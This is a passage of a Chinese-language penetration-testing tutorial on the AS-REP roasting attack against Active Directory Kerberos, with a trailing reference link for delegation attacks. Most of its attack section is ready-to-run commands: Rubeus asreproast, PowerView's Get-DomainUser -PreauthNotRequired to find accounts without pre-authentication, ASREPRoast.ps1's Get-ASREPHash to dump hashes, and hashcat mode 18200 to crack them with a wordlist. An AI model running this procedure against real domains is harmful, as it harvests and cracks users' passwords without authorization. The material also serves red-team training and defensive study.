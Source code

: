 4.AS_REP Roast
较Kerberoast来说，比较鸡肋。
它的原理是在不开启kerberos预身份验证的前提下，获得其他用户的AS_RES，并破解加密session key 的 client hash。

4.1 How to get HASH
1.Rubeus
Default
Rubeus.exe asreproast

然后就会搜索域中不需要kerberos预验证的用户，并获得ASREP。

2.Empire框架与 ASREPRoast.ps1
使用Empire框架下的powerview.ps1查找域中设置了 “不需要kerberos预身份验证” 的用户
Default
Import-Module .\powerview.ps1
 Get-DomainUser -PreauthNotRequired

然后用 ASREPRoast.ps1 ：https://github.com/HarmJ0y/ASREPRoast 获取指定用户的AS-REPhash
Default
Import-Module ASREPRoast.ps1
Get-ASREPHash -USER xx -Domain xx |Out-file -Encoding ASCII hash.txt

就会生成一个hash数据文件了

4.2 How to crack hash
将生成的HASH保存起来，并在下图处加入$23
然后丢给hashcat 跑
Default
hashcat -m 18200 hash.txt pass.txt

注意这里的pass.txt是自己的明文字典…之前我还一直以为是爆破出来的结果.
原来是一个一个的用明文字典去爆破。

5.委派攻击
参考
Default
https://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247490632&idx=1&sn=27710f7b08cd78daf420735ed9c1fe92&scene=21#wechat_redirect
